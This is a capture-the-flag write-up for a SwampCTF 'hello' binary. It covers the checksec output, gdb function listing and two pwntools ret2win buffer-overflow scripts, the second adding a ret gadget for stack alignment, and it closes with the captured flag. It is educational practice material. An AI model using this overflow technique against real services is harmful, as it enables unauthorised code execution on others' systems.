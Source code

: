 First things first, lets check file protections

```shell
checksec --file hello
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

No protections, sweet
Lets look at the functions in gdb

```shell
0x0000000000401216  main
0x00000000004012a3  print_flag
```

Looking at disassembly of print_flag functions, it reads from a file named flag.txt and prints it, to run the exploit locally, create a flag.txt file on local system

This is a basic return to win challenge

The explot is

```python
#!/usr/bin/env python3

from pwn import *

exe = './hello'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port = 'chals.swampctf.com',61231

#p = process(exe)
p = remote(host,port)

padding = 40

payload = flat(
    asm('nop')*padding,#padding to reach EIP
    elf.symbols['print_flag']
)

p.sendlineafter(b'?',payload)
p.interactive()
```

You will notice this exploit works locally but not on remote server, this is because of stack alignment. You can read more about it here [Stack Alignment](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/stack-alignment)

To solve this issue, just add a single ret gadget before calling the function

```python
#!/usr/bin/env python3

from pwn import *

exe = './hello'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port = 'chals.swampctf.com',61231

#p = process(exe)
p = remote(host,port)

padding = 40
ret = 0x000000000040101a # ropper --file hello --search "ret"

payload = flat(
    asm('nop')*padding,#padding to reach EIP
    ret,
    elf.symbols['print_flag']
)

p.sendlineafter(b'?',payload)
p.interactive()
```

Run this and we get the flag

**_flag : swampCTF{allways_3nabl3_pi3}_**
